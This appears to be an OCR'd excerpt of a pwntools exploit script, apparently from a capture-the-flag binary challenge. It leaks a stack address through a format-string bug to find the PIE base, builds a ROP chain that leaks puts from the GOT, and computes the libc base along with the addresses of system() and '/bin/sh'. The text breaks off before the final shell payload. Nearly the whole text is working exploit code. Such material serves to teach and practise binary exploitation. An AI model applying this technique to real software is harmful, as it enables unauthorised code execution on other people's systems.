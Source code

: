       # Leak 15th address from stack (main+44)
      io.sendlineafter(b':', '%{}$p'.format(15), 16)
      io.recvuntil(b'Hello ')  # Address will follow
      leaked_addr = int(io.recvline(), 16)
      info("leaked_address: %#x", leaked_addr)
      
      # Now calculate the PIEBASE
      elf.address = leaked_addr - 0x1224
      info("piebase: %#x", elf.address)
      
      # Update pop_rdi gadget
      pop_rdi = elf.address + pop_rdi_offset
      
      # Payload to leak libc function
      payload = flat({
          offset: [
              pop_rdi,  # Pop got.puts into RDI
              elf.got.puts,
              elf.plt.puts,  # Call puts() to leak the got.puts address
              elf.symbols.vuln  # Return to vuln (to overflow buffer with another payload)
          ]
      })
      
      # Send the payload
      io.sendlineafter(b':P', payload)
      
      io.recvlines(2)  # Blank line
      
      # Retrieve got.puts address
      got_puts = unpack(io.recv()[:6].ljust(8, b"\x00"))
      info("leaked got_puts: %#x", got_puts)
      
      # Subtract puts offset to get libc base
      # readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep puts
      libc_base = got_puts - 0x765f0
      info("libc_base: %#x", libc_base)
      
      # Add offsets to get system() and "/bin/sh" addresses
      # readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep system
      system_addr = libc_base + 0x48e50
      info("system_addr: %#x", system_addr)
      # strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep /bin/sh
      bin_sh = libc_base + 0x18a152
      info("bin_sh: %#x", bin_sh)
      